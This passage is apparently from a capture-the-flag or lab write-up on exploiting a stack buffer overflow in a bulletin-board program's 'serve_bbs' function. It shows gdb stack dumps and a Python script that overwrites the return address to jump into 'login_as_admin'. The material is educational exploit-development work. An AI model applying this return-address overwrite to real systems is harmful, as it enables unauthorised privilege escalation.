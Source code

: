 From the output, we already see the 'A's (0x41) that represent our title, followed by the string characters for the end of the stylized message title. This is followed space reserved for the remaining buffer allocation, until `0x7fffffffed98`. The old rbp address pushed to the stack is in `0x7fffffffedc0` and has the value `0x00007fffffffedd0`. Lastly, the return address is in `0x7fffffffedc8` and has the value `0x0000000000401195`


We'll type `ni` to allow the memcpy to complete, then review the stack again:

```gdb
wdb> ni
0x4010fc in serve_bbs ()
wdb> x/22gx $rsp
0x7fffffffed20: 0x3d3d3d3d3d3d3d0a    0x414141414141205d
0x7fffffffed30: 0x4141414141414141    0x4141414141414141
0x7fffffffed40: 0x4141414141414141    0x3d3d3d3d3d3d5b20
0x7fffffffed50: 0x4242424242420a3d    0x4242424242424242
0x7fffffffed60: 0x4242424242424242    0x4242424242424242
0x7fffffffed70: 0x4242424242424242    0x4242424242424242
0x7fffffffed80: 0x4242424242424242    0x4242424242424242
0x7fffffffed90: 0x4242424242424242    0x4242424242424242
0x7fffffffeda0: 0x4242424242424242    0x4242424242424242
0x7fffffffedb0: 0x4242424242424242    0x000a424242424242
0x7fffffffedc0: 0x0000000000000000    0x0000000000000000
```

As expected, the input has filled out the buffer and overflowed, stopping just before the old rbp and return address. When memcpy operates, it zeros out the buffer it is being copied into, so the `0x7fffffffedc0` and `0x7fffffffedc8` memory locations appear to hold 0's instead of the addresses. 
Now we know where the return address is and how many bytes we need to send, we can start to redirect program execution by replacing the return address of the `server_bbs` function to one of our choosing, `login_as_admin` (0x400bce).



### Python script to login as admin:

```python
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
p.readuntil('Enter choice')
p.sendline('1')
#p.readuntil('Enter post title:')
p.sendline('A' * 30)
#p.readuntil('Enter post contents:')
p.sendline('B' * 110 + 'C' * 7 + '\0' + '\xce\x0b\x40\x00\x00\x00\x00\x00' )


p.interactive()
```
After sending this, we can check the stack and verify we have overwritten the address:
